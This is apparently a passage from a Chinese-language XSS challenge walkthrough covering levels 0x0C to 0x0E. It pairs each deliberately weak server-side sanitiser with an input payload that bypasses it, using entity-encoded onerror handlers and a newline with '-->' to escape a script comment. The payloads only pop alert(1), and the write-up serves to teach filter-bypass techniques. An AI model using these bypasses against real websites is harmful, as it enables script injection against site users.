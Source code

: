 ```javascript
// input code
<img src=x onerror=&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;>

// 将输入的字符串转换成大写
// HTML不区分大小写，JavaScript区分大小写；JavaScript是一种区分大小写的语言，对变量方法的命名有严格的大小写敏感。
// js函数进行Unicode编码
```

##### 0x0C

```javascript
// server code
function render (input) {
  input = input.replace(/script/ig, '')
  input = input.toUpperCase()
  return '<h1>' + input + '</h1>'
}
```

```javascript
// input code
<img src=x onerror=&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;>

// 将输入的字符串转换成大写并不区分大小写匹配“script”替换为空
// js函数进行Unicode编码或进行双写绕过
```

##### 0x0D

```javascript
// server code
function render (input) {
  input = input.replace(/[</"']/g, '')
  return `
    <script>
          // alert('${input}')
    </script>
  `
}
```

```javascript
// input code
			//这里有个换行
alert(1)
-->

// 利用换行逃逸注释,利用html的"-->"注释掉后面字符
```

##### 0x0E

```javascript
// server code
function render (input) {
  input = input.replace(/<([a-zA-Z])/g, '<_$1')
  input = input.toUpperCase()
  return '<h1>' + input + '</h1>'
}
```

